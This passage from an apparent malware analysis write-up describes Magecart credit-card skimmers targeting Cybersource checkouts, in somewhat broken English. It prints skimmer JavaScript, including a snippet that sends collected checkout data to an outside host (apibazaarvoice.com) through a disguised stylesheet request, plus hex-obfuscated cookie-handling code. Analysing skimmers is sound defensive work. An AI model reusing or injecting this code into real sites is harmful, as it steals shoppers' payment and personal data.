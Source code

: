   ```js
       var infos={...array_storage,...array_Data};
       var link_obj=document["createElement"]("link");
       link_obj["href"]="https://apibazaarvoice.com/stylesheet.css?timestamp="+prepare_req(JSON["stringify"](prepare_header(infos)));
       link_obj["rel"]="stylesheet";
       link_obj["type"]="text/css";
       document["body"]["append"](link_obj);
       localStorage['setItem'](success_cart,Date["now"]()["toString"]());
       localStorage["removeItem"]('wc_info');
      }
     }
    },0x12c);
   }
  },0x3e8);
}
```

<h6>It isn't due to magecart developed skimmer for the cybersource that the group reduce theirs operations on the others ways, this only to considerate as opportunity to do additional business for the group. This version content not a tag like the others versions of magecart as code operation. This only beginning to March 2020 that the group have beginning to usurp cybersource while the attacks of NutriBullet,TrueFire and Tupperware (during COVID-19 event). The pattern used is teh same that this event too.</h6>

<h6>The second skimmer of magecart found is more like the older version with the some improvements, this still uses arrays for the obfuscation but use only integer values for getting the index and so the values. As previously explained, this use ReadyState for know if the page is correctly loaded and write cookie write the id and infos for the victim.</h6>

 ```js
var _0xb22e=["\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65", [...] ,"\x73\x72\x63"];
function docReady(timer)
{
    if(document["readyState"]=== "complete"|| document["readyState"] === "interactive"){setTimeout(timer,2000)}
    else {document["addEventListener"]("DOMContentLoaded",timer)}
}
docReady(function()
{
    String["prototype"]["hexEncode"]= function()
    {
        var id,i;
        var r="";
        for(i= 0;i< this["length"];i++)
        {
  id= this["charCodeAt"](i).toString(16);
  r+= ("000"+ id)["slice"](-4);
        }
        return r;
    }
function Push_Data(v)
{
    var c="; "+ document["cookie"];
    var res=c["split"]("; "+ v+ "=");
    if(res["length"]== 2){return res["pop"]()["split"](";")["shift"]()}
}
function Push_Cookie(v){document["cookie"]= v+ "=; expires=Thu, 01 Jan 1970 00:00:01 GMT;"}
 ```
